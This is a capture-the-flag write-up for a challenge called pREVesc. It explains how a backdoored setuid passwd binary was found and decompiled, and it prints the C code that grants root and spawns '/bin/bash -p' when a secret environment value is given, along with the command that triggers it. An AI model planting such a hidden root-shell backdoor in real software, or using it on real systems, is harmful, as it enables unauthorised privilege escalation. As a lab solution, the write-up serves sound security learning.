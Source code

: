 ## [HV23.15] pREVesc (coderion)
### Description
> We recently changed the root password for santa as he always broke our system. However, I think he has hidden some backdoor in there. Please help us find it to save christmas!
### Solution
When logging in with the provided credentials, you can find a "normal" ubuntu 23.04. Running [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) sadly doesnt reveal to much. But when looking at the modified date of the setuid binaries, you can find that the passwd file seemed to be more recent than the others. You can then copy the binary with scp to your local machine. When you decompile the binary, you can find that when using the -E Argument the following code get called:
```c
case 'E':
	setuid(0);
	setgid(0);
	// secret password must be set
	// get SALAMI env
	char *salami = getenv("SALAMI");
	// if env is empty
	if (salami == NULL) {
		// set env
		puts("Why u givin' me no salami?!");
		exit(1);
	}
  int i;
	char key[] = "nevergonnagiveyouup";
  char xor_password[] = "";
  char output[6];

  for (i=0; i<6; i++) {
  	char temp = xor_password[i] ^ key[i];
  	output[i] = temp;
  }
	char password[] ={0x1b, 0x15, 0x18, 0x11, 0x1e, 0x53, 0x5c, 0x4e, 0x1b, 0x16, 0x1a, 0x47, 0x0a, 0x0e, 0x19, 0x15, 0x18, 0x0b, 0x16, 0x4f, 0x0f, 0x0e, 0x00, 0x46, 0x04, 0x00, 0x18, 0x02, 0x05, 0x56, 0x05, 0x5c, 0x08, 0x30, 0x1a, 0x5d, 0x04, 0x58, 0x3b, 0x06, 0x35, 0x0a, 0x22};

	char pw[43];    // pw=https://www.youtube.com/watch?v=dQw4w9WgXcQ
	for (int i = 0; i < sizeof(password); i++) {
		char tmp = password[i] ^ output[i % 6];
		pw[i] = tmp;
	}
	// check da env
	if (strcmp(salami, pw) != 0) {
		printf("Never gonna give you up!\nYou'll never escape the rickroll.");
		exit(1);
	}
	puts("Enjoy your salami!");

  system("/bin/bash -p");
```
When looking at the registers in gdb we can see that the password is: https://www.youtube.com/watch?v=dQw4w9WgXcQ.   
When you then execute 
```bash 
SALAMI=https://www.youtube.com/watch?v=dQw4w9WgXcQ passwd -E
```
 you get the flag.  
A solve.py can be found [here](./15-pREVesc/solve.py).  
  
Flag: **HV23{3v1l_p455wd}**   
